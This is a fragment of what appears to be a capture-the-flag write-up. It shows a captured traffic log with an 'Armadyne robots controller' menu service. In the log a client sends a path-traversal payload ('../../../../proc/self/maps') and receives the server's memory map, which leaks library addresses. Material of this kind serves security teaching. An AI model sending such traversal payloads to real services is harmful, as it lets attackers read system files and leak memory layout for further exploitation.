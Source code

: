 ```
                        datasz = 0
                    else:
                        datasz = datasz - len(chunk)
                        data = ""
```

The output seems concluding:

```
====== FROM 54.76.18.92 ======
Armadyne robots controller
====== FROM 54.76.18.92 ======
1) Get informations <name>
2) List units
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
21ed4c7af50d987589a9029fc0422151be3a0fc2:2
====== FROM 54.76.18.92 ======
Total units : 4658
Medical units : 900
Military units : 220
Social units : 249
Spy units : 91
Shield units : 646
Communication units : 921
Transport units : 807
Computer units : 824
Available units : 3534
====== FROM 54.76.18.92 ======
1) Get informations <name>
2) List units
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
ad627891fd066f3a7c9b613b99c5c0f9c473e7f9:1 ../../../../../../../../proc/self/maps
====== FROM 54.76.18.92 ======
b7422000-b7424000 rw-p 00000000 00:00 0 
b7424000-b7427000 r-xp 00000000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7427000-b7428000 r--p 00002000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7428000-b7429000 rw-p 00003000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7429000-b75d2000 r-xp 00000000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d2000-b75d3000 ---p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d3000-b75d5000 r--p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d5000-b75d6000 rw-p 001ab000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d6000-b75d9000 rw-p 00000000 00:00 0 
b75d9000-b776c000 r-xp 00000000 ca:01 147354     /lib/i386-linux-gnu/libcrypto.so.1.0.0
b776c000-b777b000 r--p 00193000 ca:01 147354     /lib/i386-linux-gnu/libcrypto.so.1.0.0
b777b000-b7782000 rw-p 001a2000 ca:01 147354     /lib/i386-linux-gnu/libcrypto.so.1.0.0
b7782000-b7785000 rw-p 00000000 00:00 0 
```